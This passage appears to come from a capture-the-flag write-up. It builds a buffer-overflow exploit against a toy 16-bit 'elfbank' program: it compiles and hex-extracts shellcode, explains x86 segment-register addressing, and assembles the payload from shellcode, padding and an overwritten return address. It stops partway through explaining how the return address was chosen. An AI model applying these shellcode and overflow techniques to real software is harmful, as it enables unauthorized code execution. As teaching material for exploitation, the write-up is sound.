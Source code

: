 We can then compile the shellcode:

```
$ gcc -m16 shellcode.s -Telf_script.ld -nostdlib -o shellcode
shellcode.s: Assembler messages:
shellcode.s:12: Warning: indirect jmp without `*'
```

And finally extract the shellcode as a hex encoded string using `objdump`
```
$ objdump -z -d shellcode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr '\n' ' '| tr '\t' ' '|tr -s ' '|sed 's/ $//g'|sed 's/ /\\x/g'
\x31\xc0\xb4\xee\x8e\xd8\x66\x6a\x00\x66\x6a\x00\xb8\x0f\x10\xff\xe0
```

This uses a clever trick with the x86 segment registers.
First we zero the `ax`-register. By setting `ah` to `0xee` the `ax` register
will be set to `0xee00` since `ah` is a shortcut to access the top 8 bits of `ax`.
Then we set `ds` to be equal to the value in `ax`,
this has to be done in a roundabout way due to architectural limitations.

Since the `ds` register is now set to `0xEE00`  all regular memory access
(i.e. `mov`-instructions) will now use `0xEE000`, which is the value in the `ds`
register shifted four bits to the left, as a base address.

An example of this is the instruction `mov 0x10, %ax`. Normally this would move
the 16 bits of memory at physical address `0x10` into the `ax`-register.
With our current `ds` register value the processor will instead move data from
memory location `0xEE010`, the formula for calulating the real address the
processor uses is `ds<<4 + addr`.
Similarly we can set the `cs` (code segment) register to a value and then all
instruction fetches by the processor would be similarly 'rewritten'.
This trick enables a puny 16-bit microprocessor to access more RAM than is
possible using only 16-bit pointers.

Back to our exploit code! Since we set the `ds` register to `0xEE00` and the
memory we want to access is at location `0xEE000` we can simply tell the
`print`-function to start printin from memory location 0,
since `0xEE00<<4 + 0 == 0xEE000`.

The string we need to send in then becomes
```
balance\n // Trigger balance function
\x31\xc0\xb4\xee\x8e\xd8\x66\x6a\x00\x66\x6a\x00\xb8\x0f\x10\xff\xe0 //Shellcode
\xf4\xf4\xf4\xf4\xf4\xf4\xf4 // Padding
\x7F\xff\x00\x00\n // Return address
```

The most difficult part of this is finding the necessary return address,
but given that the first part of the disassembly of the elfbank file does the
following:

```
    1000:	b8 00 00             	mov    $0x0,%ax
    1003:	8e d0                	mov    %ax,%ss
    1005:	bc ff ff             	mov    $0xffff,%sp
```
